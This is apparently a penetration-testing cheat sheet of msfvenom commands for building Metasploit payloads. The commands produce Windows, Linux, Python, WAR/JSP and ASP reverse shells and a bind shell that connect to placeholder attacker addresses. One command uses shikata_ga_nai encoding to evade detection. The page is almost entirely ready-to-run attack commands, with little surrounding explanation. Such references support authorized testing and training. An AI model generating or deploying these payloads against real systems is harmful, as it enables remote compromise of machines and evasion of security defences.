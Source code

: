 #### Meterpreter - Reverse shell:

{% highlight shell-session %}
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Attacker_IP> LPORT=<Attacker_PORT> -f exe > reverse.exe
{% endhighlight %}

##### Meterpreter - Bind shell:

{% highlight shell-session %}
msfvenom -p windows/meterpreter/bind_tcp RHOST=<Target_IP> LPORT=<Target_Port> -f exe > bind.exe
{% endhighlight %}

##### CMD - Reverse shell:

{% highlight shell-session %}
msfvenom -p windows/shell/reverse_tcp LHOST=<Attacker_IP> LPORT=<Attacker_port> -f exe > prompt.exe
{% endhighlight %}

### Generate a Linux payload

#### Meterpreter - Reverse shell:

{% highlight shell-session %}
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Attacker_IP> LPORT=<Attacker_port> -f elf > reverse_bin
{% endhighlight %}

### Generate a Python payload

{% highlight shell-session %}
msfvenom -p cmd/unix/reverse_python LHOST=<Attacker_IP> LPORT=<Attacker_port> -f raw > reverse.py
{% endhighlight %}

### Generate a WAR payload

{% highlight shell-session %}
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Attacker_IP> LPORT=<Attacker_port> -f war > payload.war
{% endhighlight %}

### Generate an ASP payload

{% highlight shell-session %}
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Attacker_IP> LPORT=<Attacker_PORT> -f asp > reverse.asp
{% endhighlight %}

### Generate encoded payloads

#### Shikata\_ga\_nai

{% highlight shell-session %}
msfvenom -p <PAYLOAD> -e shikata_ga_nai -i 5 -f raw > reverse
{% endhighlight %}

